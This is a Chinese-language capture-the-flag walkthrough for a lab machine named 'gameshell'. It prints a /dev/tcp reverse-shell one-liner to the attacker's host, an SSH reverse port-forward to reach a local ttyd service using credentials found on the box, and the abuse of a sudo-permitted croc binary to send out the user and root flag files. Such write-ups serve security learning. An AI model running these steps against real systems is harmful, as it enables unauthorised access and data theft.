





# gameshell
扫描ip:192.168.56.156

知识点:
```
ssh的端口转发功能的利用
不安全配置权限
croc命令的特点
```


查看80的web页面

是一个关于bash的介绍
翻看一下没有特别的,扫一下目录
任然没有什么结果
看一下7681端口
是一个bash的web交互界面
尝试反弹shell到kali上
sh -i  >& /dev/tcp/192.168.56.108/6666 0>&1
并提升交互
python3 -c 'import pty; pty.spawn("/bin/bash")'

home下有两个用户,但都无权限


查看两个用户有什么使用的进程
ps aux | grep eviden
ps aux | grep silo

看到eviden用户启动了一个ttyd服务在本地的9876端口,使用admin/nmda,但是攻击机是无法访问到这个端口服务的,**使用ssh服务将端口发送给kali**
ssh端口转发:
```
ssh -fNTR 2222:localhost:9876 cryingtor@192.168.56.108
```
在kali上查看成功接收到转发

通过web访问ttyd并输入密码,成功活得eviden用户的shell

sudo -l查看,发现可用程序
**/usr/local/bin/croc**
croc是一个开源的文件传输工具的命令行程序，它能让任意两台计算机简单安全地传输文件或文件夹

显示无地址,但是我们可以使用管理员权限发送
```
sudo croc /home/silo/user.txt
```


这里我们在本地接收
```
CROC_SECRET="5100-manual-parole-classic" croc
```
同理root的标志也能成功


也可以转发公钥或私钥,用ssh登录机器

